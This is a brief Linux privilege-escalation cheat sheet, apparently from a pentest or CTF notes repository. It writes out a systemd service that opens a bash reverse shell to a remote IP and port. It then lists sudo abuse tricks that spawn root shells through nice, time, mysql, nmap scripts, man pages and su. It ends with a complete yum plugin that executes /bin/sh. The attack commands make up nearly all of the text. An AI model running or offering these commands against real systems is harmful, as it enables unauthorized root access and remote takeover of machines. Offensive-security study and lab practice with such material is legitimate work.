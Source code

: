 ```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/bash -i >& /dev/tcp/10.6.3.75/9001 0>&1"
[Install]
WantedBy=multi-user.target' > $TF
```

### Exploit sudo

* sudo nice /bin/sh
  * if sudoers file is restricting the nice command to `nice /directory/*` then attempt `sudo nice /directory/../bin/sh`
* sudo time /bin/sh
* sudo mysql system /bin/bash
* sudo su -
* sudo systemctl restart apache2
* sudo nmap
  * TF=$(mktemp)
  * echo 'os.execute("/bin/sh")' > $TF
  * sudo -u root nmap --script=$TF
* man pages
  * sudo man man
  * !/bin/sh
* sudo yum

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
